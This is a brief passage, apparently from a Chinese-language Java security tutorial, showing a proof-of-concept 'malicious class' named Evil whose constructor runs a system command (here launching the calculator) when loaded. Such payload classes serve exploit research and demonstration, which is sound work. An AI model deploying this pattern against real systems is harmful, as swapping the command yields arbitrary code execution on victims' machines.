![image-20220912123355095](img/image-20220912123355095.png)



当然也可以利用恶意类

```java
public class Evil {
    public Evil() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}

```

![image-20220912123723793](img/image-20220912123723793.png)
